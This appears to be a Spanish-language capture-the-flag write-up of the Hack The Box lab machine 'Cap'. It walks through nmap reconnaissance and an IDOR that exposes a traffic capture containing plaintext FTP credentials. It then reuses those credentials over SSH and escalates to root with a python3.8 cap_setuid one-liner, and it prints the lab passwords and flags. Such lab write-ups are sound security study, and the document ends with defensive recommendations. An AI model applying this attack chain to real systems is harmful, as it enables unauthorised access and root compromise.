




# Information Gathering

## Nmap

Comenzamos el reconocimiento ejecutando un escaneo de Nmap para ver los puertos abiertos y guardarlos en allPorts.

```java
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-15 10:59 -05
Initiating SYN Stealth Scan at 10:59
Scanning 10.10.10.245 [65535 ports]
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
Completed SYN Stealth Scan at 10:59, 15.59s elapsed (65535 total ports)
Nmap scan report for 10.10.10.245
Host is up, received user-set (0.11s latency).
Scanned at 2025-11-15 10:59:11 -05 for 16s
Not shown: 59836 closed tcp ports (reset), 5696 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.67 seconds
           Raw packets sent: 77020 (3.389MB) | Rcvd: 64719 (2.589MB)
```

Del output anterior podemos ver que los puertos **21** (FTP), **22** (SSH) y **80** (HTTP) están abiertos.

Hacemos un escaneo más detallado con scripts por defecto y detección de versiones para obtener más información sobre estos servicios.

```java
❯ nmap -sC -sV -p21,22,80 10.10.10.245 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-15 11:04 -05
Nmap scan report for 10.10.10.245
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 15 Nov 2025 16:04:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 15 Nov 2025 16:04:11 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 15 Nov 2025 16:04:12 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. 
...
Nmap done: 1 IP address (1 host up) scanned in 136.19 seconds
```

**Análisis de los servicios:**

- **Puerto 21 (FTP)**: El servicio FTP está ejecutando `vsftpd 3.0.3`. Será importante verificar si permite login anónimo o si hay otras configuraciones interesantes que podamos explotar.

- **Puerto 22 (SSH)**: OpenSSH 8.2p1 en Ubuntu 4ubuntu0.2. El escaneo muestra las claves públicas del host:
  - RSA (3072 bits)
  - ECDSA (256 bits)
  - ED25519 (256 bits)
  
  Este es un servicio SSH estándar y normalmente no será nuestro punto de entrada inicial, a menos que encontremos credenciales válidas o alguna vulnerabilidad específica.

- **Puerto 80 (HTTP)**: El servicio web está ejecutando **gunicorn** (un servidor WSGI HTTP para aplicaciones Python). El título de la página es "Security Dashboard", lo que sugiere que es una aplicación de monitoreo o dashboard de seguridad. El escaneo muestra que:
  - Soporta los métodos HTTP: GET, HEAD, OPTIONS
  - La aplicación utiliza recursos estáticos (CSS, imágenes, iconos) en rutas como `/static/css/`, `/static/images/`
  - Responde con códigos HTTP apropiados (200 OK, 404 NOT FOUND, 400 Bad Request)
  - El tamaño del contenido HTML es considerable (19386 bytes), lo que indica una aplicación web completa



\ **Figure 1:** Resultado del escaneo Nmap

## Reconocimiento Web

Exploramos el servicio web en el puerto 80. La página principal muestra un dashboard ya con sesión iniciada.



\ **Figure 2:** Página principal del servicio web

En la imagen vemos cosas que pueden ser interesantes, a la derecha en el perfil tenemos opciones como mensajes, configuracion, logout, pero ninguna está funcional, por lo que seguimos explorando, tambien vemos un lugar de busqueda, podriamos llegar a intentar algun tipo de inyección por ese parametro, a la izquierda tenemos opciones interesantes como un snapshot de seguridad, si entramos vemos que va a la url ```http://10.10.10.245/data/1```, y vemos opciones como el numero de paquetes, podemos intentar enviar paquetes a la url y ver si cambia el valor que ahora está en 0.

Hacemos en una terminal un escaneo de enumeración HTTP para identificar rutas y recursos adicionales:

```nmap --script http-enum -p80 10.10.10.245 -oN webScan```

Este comando ejecuta scripts de enumeración HTTP que intentan descubrir rutas, directorios y recursos ocultos en el servidor web.

Antes de eso, corremos en otra terminal tcpdump para capturar el tráfico de red:

```tcpdump -i tun0 -w Captura.cap -v```

Esto captura todo el tráfico de red en la interfaz tun0 (nuestra VPN de HTB) y lo guarda en un archivo `.cap` para análisis posterior. Esto nos permitirá ver si hay comunicación adicional o datos interesantes en el tráfico de red.

Por otro lado en el apartado Network status si entramos, vemos que muestra una especie de netstat, observamos que los datos no se muestran en formato impreso, vemos que la ip nuestra aparece en los datos.

Aquí podríamos pensar que es posible que enviando un comando por la URL para intentar una ejecución remota de código, intentamos con un `whoami`, no funcionó, por ahí no es.

Si volvemos y hacemos clic en la captura de tráfico de red, se realizará una captura durante 5 segundos y luego nos redirigirá a ```/data/2```, podemos inferir que ese numero es el numero de capturas que hemos solicitado, probamos volviendo a hacer la captura y se actualiza a ```/data/3```, por aqui ya podemos pensar en que empezamos en ```/data/1``` por ende puede existir un ```/data/0``` o numeros negativos, si ingresamos numeros de capturas que no hemos hecho nos redirige al dashboard principal.

Probando con ```/data/0``` vemos que no nos redirige al dashboard principal si no que se ven datos de captura, con el boton download podemos descargar la captura y visualizarla con wireshark o tshark y buscar cosas interesantes.



\ **Figure 3:** Data 0.

La movemos a un directorio de trabajo en nuestra máquina local (por ejemplo, el directorio actual con `mv ~/Downloads/0.pcap .` o a un directorio específico).

En la terminal hacemos:

```tshark -r 0.pcap -Tfields -e tcp.payload 2>/dev/null | xxd -ps -r```

Este comando utiliza `tshark` (herramienta de línea de comandos de Wireshark) para extraer el payload TCP del archivo de captura `0.pcap`. Luego, `xxd -ps -r` convierte los datos hexadecimales a texto legible. Esto nos permite ver el contenido real de las comunicaciones capturadas, incluyendo credenciales o información sensible que pueda haber sido transmitida en texto plano.

Lo mas interesante que vemos es:

```java
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
```

## Explotación FTP

Vemos que en esa captura se envió una contraseña del usuario `nathan` que se conectó con vsFTPd. La contraseña es `Buck3tH4TF0RM3!`. Podemos usar estas credenciales para conectarnos por FTP.

```ftp nathan@10.10.10.245```

Cuando nos pida la contraseña, ingresamos `Buck3tH4TF0RM3!`. Aunque no obtenemos una shell interactiva completa, podemos recolectar información. Si hacemos `ls` vemos que está la flag de usuario, la descargamos.

```java
ftp> ls
229 Entering Extended Passive Mode (|||55812|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Nov 15 16:42 snap
-r--------    1 1001     1001           33 Nov 15 15:58 user.txt
226 Directory send OK.
ftp> cat user.txt
?Invalid command.
ftp> type user.txt
user.txt: unknown mode.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||15609|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |*****************************************************************************************************************|    33      319.07 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.30 KiB/s)
ftp>
```

## User Flag

```java
❯ cat user.txt
   1   │ d2120e8eacc820db692c0818378177db
```

# Privilege Escalation

## Enumeración del Sistema

Para escalar privilegios, necesitamos obtener acceso al sistema. Las credenciales de FTP nos permiten acceder, pero necesitamos una forma de ejecutar comandos. Intentamos conectarnos por SSH con las mismas credenciales:

```bash
ssh nathan@10.10.10.245
```

Con la contraseña `Buck3tH4TF0RM3!` logramos conectarnos exitosamente. Ahora estamos dentro del sistema como el usuario `nathan`.

Comenzamos enumerando el sistema para identificar posibles vectores de escalada de privilegios. Ejecutamos:

```python
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

El comando `getcap -r / 2>/dev/null` busca recursivamente en todo el sistema archivos con **capabilities** (capacidades) de Linux. Las capabilities son permisos especiales que permiten a un binario realizar acciones normalmente reservadas para root, sin necesidad de ser ejecutado como root.

Observamos algo interesante: el binario de Python tiene la capability `cap_setuid` con los flags `+eip`, lo que significa que puede cambiar el UID (User ID) del proceso. Esto nos permite hacer la escalada de privilegios.

## Explotación de Capabilities

Ejecutamos:

```python
python3.8 -c 'import os; os.setuid(0); os.system( "whoami")'
root
```

Nos retorna `root`, confirmando que la escalada funciona. Simplemente cambiamos el comando por `bash` para obtener una shell interactiva como root:

```python
python3.8 -c 'import os; os.setuid(0); os.system( "bash")'
root
```

## Root Flag

Ahora tenemos una shell como root. Navegamos al directorio `/root` y leemos la flag:

```python
root@cap:~# cd /root/
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt
4ae0f1e0cd2e79edfff54860a77a999f
```



\ **Figure 4:** Root flag obtenida

Obtuvimos la flag de root, y la escalada fue exitosa.

# Vulnerabilidades Encontradas

1. **IDOR (Insecure Direct Object Reference)**: El endpoint `/data/{id}` permite acceder a capturas de tráfico anteriores mediante enumeración de IDs. No existe validación adecuada que impida acceder a capturas de otros usuarios o capturas históricas simplemente cambiando el identificador en la URL.

2. **Exposición de Información Sensible**: Las capturas de tráfico de red almacenadas en el sistema contienen información sensible (credenciales FTP) y son accesibles sin autenticación adecuada o controles de acceso.

3. **Transmisión de Credenciales en Texto Plano**: El protocolo FTP transmite credenciales sin encriptación, permitiendo que sean capturadas y analizadas fácilmente mediante herramientas como `tshark` o `wireshark`.

4. **Reutilización de Credenciales**: La misma contraseña funciona tanto para FTP como para SSH, lo que amplifica el impacto de una filtración de credenciales.

5. **Capabilities Mal Configuradas**: El binario `python3.8` tiene la capability `cap_setuid` asignada, lo que permite escalada de privilegios mediante la función `os.setuid(0)` sin necesidad de ejecutar el binario como root.

# Conclusion

La máquina **Cap** fue una excelente práctica que me mostró varios conceptos importantes de seguridad web, análisis de tráfico de red y escalada de privilegios mediante capabilities de Linux.

**Puntos clave aprendidos:**

1. **Reconocimiento exhaustivo**: El escaneo Nmap reveló un sistema con servicios FTP, SSH y HTTP. La identificación de gunicorn como servidor web y "Security Dashboard" como aplicación fue crucial para entender el contexto del sistema.

2. **Análisis de tráfico de red**: Esta máquina me enseñó la importancia de analizar el tráfico de red capturado. El dashboard de seguridad capturaba el tráfico de red, y al descargar y analizar las capturas con `tshark`, pude encontrar credenciales FTP transmitidas en texto plano. Esto demuestra la importancia de usar protocolos seguros y encriptados.

3. **Explotación de información expuesta**: El dashboard mostraba capturas de tráfico accesibles a través de URLs como `/data/0`, `/data/1`, etc. La enumeración de estos endpoints me permitió acceder a capturas anteriores que contenían información sensible.

4. **Privilege Escalation mediante Capabilities**: La escalada de privilegios mediante capabilities de Linux fue una técnica nueva para mí. Aprendí que las capabilities permiten a binarios específicos realizar acciones privilegiadas sin necesidad de ser ejecutados como root. El uso de `getcap` para enumerar capabilities y la explotación de `cap_setuid` en Python fue un aprendizaje valioso.

5. **Metodología de enumeración**: La identificación de capabilities como vector de ataque me enseñó la importancia de enumerar sistemáticamente el sistema en busca de permisos especiales, no solo SUID/SGID, sino también capabilities.

**Dificultades encontradas:**

- Inicialmente intenté técnicas de inyección en el campo de búsqueda sin éxito, lo que me llevó a explorar otras funcionalidades del dashboard.
- Entender cómo funcionaba el sistema de capturas de tráfico y encontrar el endpoint `/data/0` requirió exploración y prueba de diferentes valores.
- El análisis del archivo `.pcap` con `tshark` y la conversión de datos hexadecimales a texto legible fue un proceso nuevo que aprendí durante la resolución.

**Recomendaciones de seguridad:**

- Nunca transmitir credenciales en texto plano, especialmente a través de protocolos no encriptados como FTP. Usar SFTP o FTPS en su lugar.
- No almacenar capturas de tráfico de red que puedan contener información sensible sin protección adecuada.
- Implementar controles de acceso adecuados para endpoints que muestren información del sistema o capturas de red.
- Revisar y limitar las capabilities asignadas a binarios del sistema. Solo asignar capabilities mínimas necesarias.
- Implementar logging y monitoreo para detectar accesos no autorizados a información sensible.
- Validar y sanitizar todas las entradas del usuario, especialmente en campos de búsqueda y parámetros de URL.

Esta máquina fue una excelente práctica que combinó análisis de tráfico de red, explotación de información expuesta y escalada de privilegios mediante capabilities de Linux.

# References

1. [Hack The Box](https://www.hackthebox.com/)
2. [Hack The Box Forum](https://forum.hackthebox.com/)
3. [Pandoc LaTeX Template](https://github.com/Wandmalfarbe/pandoc-latex-template)

# PWNED

[PWNED LINK](https://labs.hackthebox.com/achievement/machine/2794675/351)
